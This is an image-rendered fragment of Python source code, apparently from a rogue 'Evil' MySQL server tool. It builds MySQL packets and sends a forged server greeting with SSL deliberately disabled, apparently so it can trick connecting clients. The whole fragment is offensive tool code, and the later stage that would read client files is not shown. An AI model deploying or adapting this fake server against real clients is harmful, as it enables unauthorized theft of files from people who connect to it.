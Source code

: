 ```python
        result = "{0}{1}".format(
            header,
            self.payload
        )
        return result

    def __repr__(self):
        return repr(str(self))

    @staticmethod
    def parse(raw_data):
        packet_num = ord(raw_data[0])
        payload = raw_data[1:]

        return mysql_packet(packet_num, payload)


class http_request_handler(asynchat.async_chat):

    def __init__(self, addr):
        asynchat.async_chat.__init__(self, sock=addr[0])
        self.addr = addr[1]
        self.ibuffer = []
        self.set_terminator(3)
        self.state = 'LEN'
        self.sub_state = 'Auth'
        self.logined = False
        # self.push(
        #     mysql_packet(
        #         0,
        #         "".join((
        #             '\x0a',  # Protocol
        #             '3.0.0-Evil_Mysql_Server' + '\0',  # Version
        #             #'5.1.66-0+squeeze1' + '\0',
        #             '\x36\x00\x00\x00',  # Thread ID
        #             'evilsalt' + '\0',  # Salt
        #             '\xdf\xf7',  # Capabilities
        #             '\x08',  # Collation
        #             '\x02\x00',  # Server Status
        #             '\0' * 13,  # Unknown
        #             'evil2222' + '\0',
        #         ))
        #     )
        # )
        # 这个Server Greeting太老了
        self.push(
            mysql_packet(
                0,
                "".join((
                    '\x0a',
                    '5.7.37-log' + '\0',
                    '\x02\x00\x00\x00',
                    '\x2b\x3a\x31\x7a\x22\x72\x64\x4f\x00',
                    '\xff\xf7',# 关闭ssl .... 0... .... .... = Switch to SSL after handshake: Not set
                    '\x2d',
                    '\x02\x00',
                    '\xff\xc1',
                    '\x15',
                    '\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00',
                    '\x6b\x66\x64\x01\x4c\x1e\x0a\x5f\x79\x0d\x27\x5b\x00',
                    'mysql_native_password' + '\0',
                ))
            )
```